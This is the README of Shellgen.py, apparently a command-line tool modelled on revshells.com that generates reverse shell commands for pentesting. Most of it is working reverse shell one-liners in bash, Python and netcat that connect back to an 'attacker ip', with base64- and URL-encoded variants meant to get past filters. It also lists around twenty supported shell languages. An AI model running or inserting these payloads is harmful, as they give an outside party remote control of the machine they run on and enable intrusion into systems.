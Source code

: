 # Shellgen.py 
---

     (`-').->  (`-').->  (`-')  _                                 (`-')  _ <-. (`-')_ 
     ( OO)_    (OO )__   ( OO).-/    <-.       <-.        .->     ( OO).-/    \( OO) )
    (_)--\_)  ,--. ,'-' (,------.  ,--. )    ,--. )    ,---(`-') (,------. ,--./ ,--/ 
    /    _ /  |  | |  |  |  .---'  |  (`-')  |  (`-') '  .-(OO )  |  .---' |   \ |  | 
    \_..`--.  |  `-'  | (|  '--.   |  |OO )  |  |OO ) |  | .-, \ (|  '--.  |  . '|  |)
    .-._)   \ |  .-.  |  |  .--'  (|  '__ | (|  '__ | |  | '.(_/  |  .--'  |  |\    |  
    \       / |  | |  |  |  `---.  |     |'  |     |' |  '-'  |   |  `---. |  | \   | 
     `-----'  `--' `--'  `------'  `-----'   `-----'   `-----'    `------' `--'  `--'

---
## The tool is used to generate various types of reverse shell commands from the CLI.
## I got the idea for this tool from revshells.com and made a smaller CLI version
---
## The usage is very simple

    
    usage: shellgen.py [-h] [-i <attacker ip>] [-p <attacker port>] [-m method to use] [-l] [-b] [-u]

    optional arguments:
      -h, --help          show this help message and exit
      -i <attacker ip>    Attacker ip address to receive the connection back from victim machine. Default = 127.0.0.1
      -p <attacker port>  Attacker port to listen on. Default = 1337
      -m method to use    A comma seperated list of reverse shell methods. Default is bash,python3,nc
      -l                  List available methods for reverse shells
      -b                  Base64 encode the reverse shell output
      -u                  Url encode the reverse shell output


## Examples 
---
#### basic usage uses the three default methods, bash, python3, and nc default ip 127.0.0.1 and default port l337

    
    python3 shellgen.py 
    
    bash: 
      bash -i >& /dev/tcp/127.0.0.1/1337 0>&1 
      0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; sh <&196 >&196 2>&196 
      /bin/bash -l > /dev/tcp/127.0.0.1/1337 0<&1 2>&1
    
    python3: 
      export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'

#### specifying a method, ip, and port
    
    python3 shellgen.py -i 10.10.10.10 -m bash -p 9001

    bash: 
      bash -i >& /dev/tcp/10.10.10.10/9001 0>&1 
      0<&196;exec 196<>/dev/tcp/10.10.10.10; sh <&196 >&196 2>&196 
      /bin/bash -l > /dev/tcp/10.10.10.10/9001 0<&1 2>&1
                                                           
## Base64 encoded payload

    python3 shellgen.py -i 10.10.10.10 -p 9001 -b -m nc
    
    nc: 
       IHJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8YmFzaCAtaSAyPiYxfG5jIDEwLjEwLjEwLjEwIDkwMDEgPi90bXAvZiA= 

       IG5jIC1lIGJhc2ggMTAuMTAuMTAuMTAgOTAwMSA= 

       bmMuZXhlIC1lIGJhc2ggMTAuMTAuMTAuMTAgOTAwMSA= 

## Url encoded payload
    python3 shellgen.py -i 10.10.10.10 -p 9001 -u -m nc
    nc: 
       %20rm%20/tmp/f%3Bmkfifo%20/tmp/f%3Bcat%20/tmp/f%7Cbash%20-i%202%3E%261%7Cnc%2010.10.10.10%209001%20%3E/tmp/f%20 

       %20nc%20-e%20bash%2010.10.10.10%209001%20 

       nc.exe%20-e%20bash%2010.10.10.10%209001%20 

### ShellGen supports the following shell methods
- php
- bash
- nc
- c
- c#
- perl
- php-pentest-monkey
- powershell
- python
- python3
- ruby
- nodejs
- javascript
- groovy
- telnet
- zsh
- lua
- golang
- awk
- dart


## To do
- add option to save to file
